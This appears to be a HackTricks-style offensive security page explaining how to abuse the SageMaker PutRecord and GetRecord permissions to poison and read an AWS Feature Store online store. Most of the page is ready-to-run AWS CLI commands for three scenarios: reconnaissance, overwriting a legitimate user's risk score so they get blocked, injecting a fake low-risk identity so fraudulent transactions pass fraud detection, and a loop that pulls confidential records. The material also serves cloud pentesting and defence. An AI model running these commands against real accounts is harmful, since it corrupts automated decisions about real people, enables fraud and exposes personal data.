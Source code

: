 # SageMaker Feature Store online store poisoning

{{#include ../../../../banners/hacktricks-training.md}}

Abuse `sagemaker:PutRecord` on a Feature Group with OnlineStore enabled to overwrite live feature values consumed by online inference. Combined with `sagemaker:GetRecord`, an attacker can read sensitive features. This does not require access to models or endpoints.

## Requirements
- Permissions: `sagemaker:ListFeatureGroups`, `sagemaker:DescribeFeatureGroup`, `sagemaker:PutRecord`, `sagemaker:GetRecord`
- Target: Feature Group with OnlineStore enabled (typically backing real-time inference)
- Complexity: **LOW** - Simple AWS CLI commands, no model manipulation required

## Steps

### Reconnaissance

1) List Feature Groups with OnlineStore enabled
```bash
REGION=${REGION:-us-east-1}
aws sagemaker list-feature-groups \
  --region $REGION \
  --query "FeatureGroupSummaries[?OnlineStoreConfig!=null].[FeatureGroupName,CreationTime]" \
  --output table
```

2) Describe a target Feature Group to understand its schema
```bash
FG=<feature-group-name>
aws sagemaker describe-feature-group \
  --region $REGION \
  --feature-group-name "$FG"
```

Note the `RecordIdentifierFeatureName`, `EventTimeFeatureName`, and all feature definitions. These are required for crafting valid records.

### Attack Scenario 1: Data Poisoning (Overwrite Existing Records)

1) Read the current legitimate record
```bash
aws sagemaker-featurestore-runtime get-record \
  --region $REGION \
  --feature-group-name "$FG" \
  --record-identifier-value-as-string user-001
```

2) Poison the record with malicious values using inline `--record` parameter
```bash
NOW=$(date -u +%Y-%m-%dT%H:%M:%SZ)

# Example: Change risk_score from 0.15 to 0.99 to block a legitimate user
aws sagemaker-featurestore-runtime put-record \
  --region $REGION \
  --feature-group-name "$FG" \
  --record "[
    {\"FeatureName\": \"entity_id\", \"ValueAsString\": \"user-001\"},
    {\"FeatureName\": \"event_time\", \"ValueAsString\": \"$NOW\"},
    {\"FeatureName\": \"risk_score\", \"ValueAsString\": \"0.99\"},
    {\"FeatureName\": \"transaction_amount\", \"ValueAsString\": \"125.50\"},
    {\"FeatureName\": \"account_status\", \"ValueAsString\": \"POISONED\"}
  ]" \
  --target-stores OnlineStore
```

3) Verify the poisoned data
```bash
aws sagemaker-featurestore-runtime get-record \
  --region $REGION \
  --feature-group-name "$FG" \
  --record-identifier-value-as-string user-001
```

**Impact**: ML models consuming this feature will now see `risk_score=0.99` for a legitimate user, potentially blocking their transactions or services.

### Attack Scenario 2: Malicious Data Injection (Create Fraudulent Records)

Inject completely new records with manipulated features to evade security controls:

```bash
NOW=$(date -u +%Y-%m-%dT%H:%M:%SZ)

# Create fake user with artificially low risk to perform fraudulent transactions
aws sagemaker-featurestore-runtime put-record \
  --region $REGION \
  --feature-group-name "$FG" \
  --record "[
    {\"FeatureName\": \"entity_id\", \"ValueAsString\": \"user-999\"},
    {\"FeatureName\": \"event_time\", \"ValueAsString\": \"$NOW\"},
    {\"FeatureName\": \"risk_score\", \"ValueAsString\": \"0.01\"},
    {\"FeatureName\": \"transaction_amount\", \"ValueAsString\": \"999999.99\"},
    {\"FeatureName\": \"account_status\", \"ValueAsString\": \"approved\"}
  ]" \
  --target-stores OnlineStore
```

Verify the injection:
```bash
aws sagemaker-featurestore-runtime get-record \
  --region $REGION \
  --feature-group-name "$FG" \
  --record-identifier-value-as-string user-999
```

**Impact**: Attacker creates a fake identity with low risk score (0.01) that can perform high-value fraudulent transactions without triggering fraud detection.

### Attack Scenario 3: Sensitive Data Exfiltration

Read multiple records to extract confidential features and profile model behavior:

```bash
# Exfiltrate data for known users
for USER_ID in user-001 user-002 user-003 user-999; do
  echo "Exfiltrating data for ${USER_ID}:"
  aws sagemaker-featurestore-runtime get-record \
    --region $REGION \
    --feature-group-name "$FG" \
    --record-identifier-value-as-string ${USER_ID}
done
```

**Impact**: Confidential features (risk scores, transaction patterns, personal data) exposed to attacker.

### Testing/Demo Feature Group Creation (Optional)

If you need to create a test Feature Group:

```bash
REGION=${REGION:-us-east-1}
FG=$(aws sagemaker list-feature-groups --region $REGION --query "FeatureGroupSummaries[?OnlineStoreConfig!=null]|[0].FeatureGroupName" --output text)
if [ -z "$FG" -o "$FG" = "None" ]; then
  ACC=$(aws sts get-caller-identity --query Account --output text)
  FG=test-fg-$ACC-$(date +%s)
  ROLE_ARN=$(aws iam get-role --role-name AmazonSageMaker-ExecutionRole --query Role.Arn --output text 2>/dev/null || echo arn:aws:iam::$ACC:role/service-role/AmazonSageMaker-ExecutionRole)
  
  aws sagemaker create-feature-group \
    --region $REGION \
    --feature-group-name "$FG" \
    --record-identifier-feature-name entity_id \
    --event-time-feature-name event_time \
    --feature-definitions "[
      {\"FeatureName\":\"entity_id\",\"FeatureType\":\"String\"},
      {\"FeatureName\":\"event_time\",\"FeatureType\":\"String\"},
      {\"FeatureName\":\"risk_score\",\"FeatureType\":\"Fractional\"},
      {\"FeatureName\":\"transaction_amount\",\"FeatureType\":\"Fractional\"},
      {\"FeatureName\":\"account_status\",\"FeatureType\":\"String\"}
    ]" \
    --online-store-config "{\"EnableOnlineStore\":true}" \
    --role-arn "$ROLE_ARN"
  
  echo "Waiting for feature group to be in Created state..."
  for i in $(seq 1 40); do
    ST=$(aws sagemaker describe-feature-group --region $REGION --feature-group-name "$FG" --query FeatureGroupStatus --output text || true)
    echo "$ST"; [ "$ST" = "Created" ] && break; sleep 15
  done
fi

echo "Feature Group ready: $FG"
```

## References
- [AWS SageMaker Feature Store Documentation](https://docs.aws.amazon.com/sagemaker/latest/dg/feature-store.html)
- [Feature Store Security Best Practices](https://docs.aws.amazon.com/sagemaker/latest/dg/feature-store-security.html)
{{#include ../../../../banners/hacktricks-training.md}}
